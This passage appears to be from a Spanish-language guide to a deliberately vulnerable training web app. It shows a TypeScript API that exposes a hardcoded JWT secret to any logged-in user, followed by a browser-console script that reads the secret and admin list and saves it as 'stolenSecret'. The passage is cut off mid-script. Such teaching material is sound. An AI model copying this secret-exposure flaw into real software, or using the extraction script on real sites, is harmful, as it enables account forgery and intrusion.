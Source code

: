 ### 🔍 **Código Vulnerable**

```javascript
// services/api.ts
const SYSTEM_CONFIG = {
  jwt_secret: 'vulnerable-secret-key', // 🚨 Secret expuesta
  server_info: 'Ubuntu 20.04',
  database_info: 'JSON Local Storage',
  debug_mode: true,
  last_backup: '2024-01-15',
  admin_users: ['admin'],
  total_users: usersDatabase.length
};

export const getSystemInfo = async (): Promise<SystemInfo> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }

  // 🚨 CUALQUIER usuario autenticado puede acceder
  console.log(`🚨 VULNERABILITY EXPLOITED: User ${decoded.username} accessed system info including JWT secret`);

  return {
    server: SYSTEM_CONFIG.server_info,
    database: SYSTEM_CONFIG.database_info,
    users_count: usersDatabase.length,
    admin_users: SYSTEM_CONFIG.admin_users,
    secret_key: SYSTEM_CONFIG.jwt_secret, // 🚨 MUY VULNERABLE
    last_backup: SYSTEM_CONFIG.last_backup,
    debug_mode: SYSTEM_CONFIG.debug_mode
  };
};
```

### 💥 **Formas de Explotación**

#### **Método 1: Acceso Directo a System Info**
```javascript
// MÉTODO PRÁCTICO: Acceder a configuración del sistema
const accessSystemInfo = () => {
  if (window.debugAPI && window.debugAPI.SYSTEM_CONFIG) {
    console.log("🚨 INFORMACIÓN CRÍTICA DEL SISTEMA OBTENIDA:");
    const config = window.debugAPI.SYSTEM_CONFIG;
    
    console.log("🔑 JWT Secret:", config.jwt_secret);
    console.log("👥 Usuarios Admin:", config.admin_users);
    console.log("🖥️ Servidor:", config.server_info);
    console.log("💾 Base de datos:", config.database_info);
    console.log("🐛 Modo debug:", config.debug_mode);
    console.log("💾 Último backup:", config.last_backup);
    console.log("📊 Total usuarios:", config.total_users);
    
    // Guardar secret para uso posterior
    window.stolenSecret = config.jwt_secret;
    
```